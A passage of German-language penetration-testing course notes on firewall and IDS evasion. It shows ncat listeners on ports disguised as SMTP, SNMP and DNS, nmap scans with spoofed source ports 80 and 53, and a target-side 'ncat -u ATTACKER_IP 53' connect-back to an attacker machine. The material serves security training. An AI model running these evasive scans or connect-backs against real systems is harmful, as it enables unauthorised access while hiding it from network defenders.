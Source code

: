- **Zum Lauschen mit UDP** geben Sie einfach `ncat -ulvnp PORT_NUM` ein, wobei `PORT_NUM` die Portnummer ist, auf der Sie lauschen möchten. Beachten Sie, dass Ncat standardmäßig TCP verwendet, es sei denn, Sie fügen `-u` hinzu.
- **Um sich mit einer Ncat-Instanz, die auf einem UDP-Port lauscht, zu verbinden**, können Sie `nc -u TARGET_IP PORT_NUM` verwenden.

Betrachten Sie die folgenden zwei Beispiele:

- Das Ausführen von `ncat -lvnp 25` auf dem Angreifer-System und das Verbinden damit vermittelt den Eindruck, es handele sich um eine normale TCP-Verbindung mit einem SMTP-Server, es sei denn, das IDS/IPS bietet eine tiefgehende Paketinspektion (DPI).
- Das Ausführen von `ncat -ulvnp 162` auf der Angreifer-Maschine und das Verbinden damit vermittelt den Eindruck, es handele sich um eine normale UDP-Kommunikation mit einem SNMP-Server, es sei denn, das IDS/IPS unterstützt DPI.

### Manipulation von (Quell-)TCP/UDP-Ports

Im Allgemeinen werden die TCP- und UDP-Quell- und Zielports selbst von den grundlegendsten Sicherheitslösungen überprüft. Ohne tiefgehende Paketinspektion sind die Portnummern der Hauptindikator für den verwendeten Dienst. Mit anderen Worten, Netzwerkverkehr, der TCP-Port 22 betrifft, wird als SSH-Verkehr interpretiert, es sei denn, die Sicherheitslösung kann die von den TCP-Segmenten übertragenen Daten analysieren.

Je nach Sicherheitslösung des Ziels können Sie Ihren Port-Scan-Verkehr so gestalten, dass er wie Web-Browsing oder DNS-Abfragen aussieht. Wenn Sie Nmap verwenden, können Sie die Option `-g PORT_NUMBER` (oder `--source-port PORT_NUMBER`) hinzufügen, um Nmap anzuweisen, den gesamten Verkehr von einer bestimmten Quellportnummer aus zu senden.

Wenn Sie ein Ziel scannen, verwenden Sie `nmap -sS -Pn -g 80 -F MACHINE_IP`, um den Port-Scan-Verkehr auf den ersten Blick wie den Austausch mit einem HTTP-Server aussehen zu lassen.

Wenn Sie an der Untersuchung von UDP-Ports interessiert sind, können Sie `nmap -sU -Pn -g 53 -F MACHINE_IP` verwenden, um den Verkehr wie den Austausch mit einem DNS-Server erscheinen zu lassen.  
![2024-07-28-0826134be47960f6466b84c0d5407654.png](Bilder/2024-07-28-0826134be47960f6466b84c0d5407654.png)

**Verwendung von Ncat zur Tarnung des Verkehrs**

Betrachten wir den Fall, in dem Sie Ncat verwenden. Sie können versuchen, den Verkehr so zu tarnen, dass er wie DNS-Verkehr aussieht.

- **Auf der Angreifer-Maschine**, wenn Sie Ncat verwenden möchten, um auf UDP-Port 53 zu lauschen, wie es ein DNS-Server tun würde, können Sie den folgenden Befehl verwenden:
  ```plaintext
  ncat -ulvnp 53
  ```
- **Auf dem Ziel** können Sie es so konfigurieren, dass es sich mit dem lauschenden Server verbindet, indem Sie diesen Befehl verwenden:
  ```plaintext
  ncat -u ATTACKER_IP 53
  ```
